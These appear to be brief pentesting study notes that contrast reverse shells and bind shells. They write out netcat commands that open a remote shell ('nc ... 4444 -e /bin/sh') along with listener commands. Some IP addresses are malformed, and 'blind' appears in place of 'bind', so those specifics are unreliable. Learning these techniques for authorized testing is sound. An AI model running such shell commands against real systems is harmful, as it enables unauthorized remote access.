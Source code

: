 * Reverse shell means a victim connects to us. Target is connecting, attackbox is listening.  
  * We are listening on a port (nc -lvp 4444, lvp is listening verbose prot)
  * Victim machine is saying nc 192.168.1.1.1 4444 -e /bin/sh
* Blind shell - we open a port on the machine, and then we connect to it
  * Exploit opens up port, so we connect through nc 192.1682.1.2 4444
  * On victim side, nc -lvp 4444 -e /bin/sh
 * You will be using reverse shells 95% of the time. Blind shells are most likely on external assessments.
   * Externals use bind shells - NAT through public IP address to connect to that port. Reverse, you would have to open up your home network to the world. 

